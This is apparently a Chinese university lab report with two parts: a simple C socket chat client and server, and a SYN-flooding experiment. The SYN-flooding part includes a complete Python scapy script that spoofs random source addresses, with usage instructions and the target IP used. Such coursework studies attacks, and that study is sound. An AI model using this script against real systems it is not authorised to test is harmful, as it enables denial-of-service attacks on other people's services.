




# 网络系统实验三

-   PB17111568
-   郭雨轩

## 简单聊天程序

### 实验环境

-   client：WSL，Ubuntu 20.04
-   server：Aliyun，Ubuntu 18.04

### 编译并运行

首先，修改`clinet.c`中的宏`SERVER_IP`为服务器的IP地址，之后在 Ubuntu 下，使用：

``` shell
gcc -o server server.c
gcc -o client clinet.c
```

分别编译两个源文件，最后在服务器上执行

``` shell
./server
```

在客户端执行

``` shell
./client
```

即可，默认使用的端口号是8000

### 代码介绍

client.c: （以注释的形式介绍）

``` c
#include <stdio.h>
#include <string.h>

#include <sys/types.h>
#include <sys/socket.h>

#include <unistd.h>
#include <fcntl.h>

#include <netinet/in.h>
#include <arpa/inet.h>

#define BUFFER_SIZE 1024
#define SERVER_IP "127.0.0.1" // 设定服务器的IP

int main(int argc, char *argv[]) {
	
	int client_fd;
	struct sockaddr_in remote_addr;
	char buffer[BUFFER_SIZE];
	int len;
	memset(&remote_addr,0,sizeof(remote_addr));
	remote_addr.sin_family = AF_INET;
	remote_addr.sin_addr.s_addr = inet_addr(SERVER_IP); // 在结构体里设定服务器地址
	remote_addr.sin_port = htons(8000); // 设定端口
	if((client_fd = socket(PF_INET, SOCK_STREAM, 0)) < 0) { // 创建套接字，若失败则返回
		printf("Socket error!\n");
		return 1;
	}
	if(connect(client_fd, (struct sockaddr *) &remote_addr, sizeof(struct sockaddr)) < 0)
	{ // 连接失败则返回
		printf("Connect error!\n");
		return 1;
	}
	fcntl(client_fd, F_SETFL, O_NONBLOCK); // 设置为non——blocking，根据PPT
	len = recv(client_fd, buffer, BUFFER_SIZE, 0); // 连接成功后服务器会发送一个信息
    buffer[len]='\0';
	printf("%s",buffer);
	while (1) {
        // 死循环，“Qq”可退出，服务器和客户端一直通信
		printf("Input the message:\n");
		fgets(buffer, BUFFER_SIZE, stdin);
		if(buffer[0] == 'Q' && buffer[1] == 'q') {
			break;
		}
		len = send(client_fd, buffer, strlen(buffer), 0);
		len = recv(client_fd, buffer, BUFFER_SIZE, 0);
		if (len != -1) {
			buffer[len] = '\0';
			printf("Receive from server:\n%s\n", buffer);
		}
	}
	// 关闭套接字
	close(client_fd);
	return 0;
}
```

server.c: (以注释的形式介绍)

``` c
#include <stdio.h>
#include <string.h>

#include <sys/types.h>
#include <sys/socket.h>

#include <unistd.h>
#include <fcntl.h>

#include <netinet/in.h>
#include <arpa/inet.h>

#define BUFFER_SIZE 1024


int main(void) {
    // 两个套接字，分别为服务器的和客户端的
    int server_fd;
    int client_fd;
    char buffer[BUFFER_SIZE];
    // 两个地址结构体，自己的地址和客户端的地址
    struct sockaddr_in my_addr;
	struct sockaddr_in remote_addr;
    int len;
    memset(&my_addr, 0, sizeof(my_addr)); 
	my_addr.sin_family = AF_INET; 
	my_addr.sin_addr.s_addr = INADDR_ANY; // 自己的地址设定为所有地址
	my_addr.sin_port = htons(8000); // 端口8000
    if((server_fd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
        // 若打开套接字失败就返回
		printf("Socket error!\n");
		return 1;
	}
    if(bind(server_fd, (struct sockaddr *) &my_addr, sizeof(struct sockaddr)) < 0) {
		// bind失败则返回
        printf("Bind error!\n");
		return 1;
	}
    if(listen(server_fd, 5) < 0)
	{
        // 监听连接
		printf("Listen error!\n");
		return 1;
	}
    int sin_size=sizeof(struct sockaddr_in);
	
	if((client_fd = accept(server_fd, (struct sockaddr *) &remote_addr, &sin_size)) < 0) {
        // 接受client，产生clinet套接字
		printf("Accept error!\n");
		return 1;
	}
    // 设置为非阻塞
    fcntl(client_fd, F_SETFL, O_NONBLOCK); // set non blocking
    // 发送欢迎信息
	printf("accept client %s\n",inet_ntoa(remote_addr.sin_addr));
	len = send(client_fd, "Connection Setup!\n", 18, 0); // send welcome message
	
	
	while (1) {
        // 死循环，“Qq”可退出，服务器和客户端一直通信
		printf("Input the message:\n");
		fgets(buffer, BUFFER_SIZE, stdin);
		if(buffer[0] == 'Q' && buffer[1] == 'q') {
			break;
		}
		len = send(client_fd, buffer, strlen(buffer), 0);
		len = recv(client_fd, buffer, BUFFER_SIZE, 0);
		if (len != -1) {
			buffer[len] = '\0';
			printf("Receive from cilent:\n%s\n", buffer);
		}
	}
}
```

### 实验结果

服务器端（阿里云服务器一台）：



客户端（本机，WSL）：



## SYN Flooding

### 实验环境

-   Attacker: WSL，Ubuntu 20.04
-   Victim：Aliyun，Ubuntu 18.04

### 运行

使用命令

``` python
python syn-flooding.py -t <Target-IP> -p <Port> -c <Num-Message>
```

### 实验代码

实验代码使用python，依赖python爬虫库`scapy`，代码如下：

``` python
from sys import stdout
from scapy.all import *
from random import randint
from argparse import ArgumentParser


def randomIP():
    # 随机生成IP
	ip = ".".join(map(str, (randint(0, 255)for _ in range(4))))
	return ip


def randInt():
    # 随机生成端口号，窗口等
	x = randint(1000, 9000)
	return x


def SYN_Flood(dstIP, dstPort, counter):
	total = 0
	print ("Packets are sending ...")

	for x in range(0, counter):
		s_port = randInt()
		s_eq = randInt()
		w_indow = randInt()
		
        # 生成IP数据包
		IP_Packet = IP ()
		IP_Packet.src = randomIP()
		IP_Packet.dst = dstIP
		# 生成TCP数据包
		TCP_Packet = TCP ()
		TCP_Packet.sport = s_port
		TCP_Packet.dport = int(dstPort)
		TCP_Packet.flags = "S"
		TCP_Packet.seq = s_eq
		TCP_Packet.window = w_indow
		
        # 设定间隔为0.01s，发送数据包
		send(IP_Packet/TCP_Packet, inter=0.01, verbose=0)
		stdout.write("\nSent %i packets.\n" % total)
		total+=1

	stdout.write("\nTotal packets sent: %i\n" % total)


def main():
    # 添加参数
	parser = ArgumentParser()
	parser.add_argument('--target', '-t', help='target IP address')
	parser.add_argument('--port', '-p', help='target port number')
	parser.add_argument('--count', '-c', help='number of packets')
	parser.epilog = "Usage: python3 syn-flooding.py -t 10.20.30.40 -p 8080 -c 1"

	args = parser.parse_args()

	if args.target is not None:
		if args.port is not None:
			if args.count is None:
				print('[!]You did not use --counter/-c parameter, so 1 packet will be sent..')
				SYN_Flood(args.target, args.port, 1)

			else:
				SYN_Flood(args.target, args.port, int(args.count))

		else:
			print('[-]Please, use --port/-p to give target\'s port!')
			print('[!]Example: -p 445')
			print('[?] -h for help')
			exit()
	else:
		print('''usage: py3_synflood_cmd.py [-h] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]
optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target IP address
  --port PORT, -p PORT  target port number
  --count COUNT, -c COUNT
                        number of packets''')
		exit()

if __name__ == "__main__":
	main()
```

### 实验结果

运行程序：



使用 wireshark观察发出的包



其中源地址和源端口都是随机的，目的地址为`182.92.87.240:5000`

但是由于防火墙技术的改进和Ubuntu对SYN-Flooding的防范，在服务器端并没有像理想中看到很多未确认的连接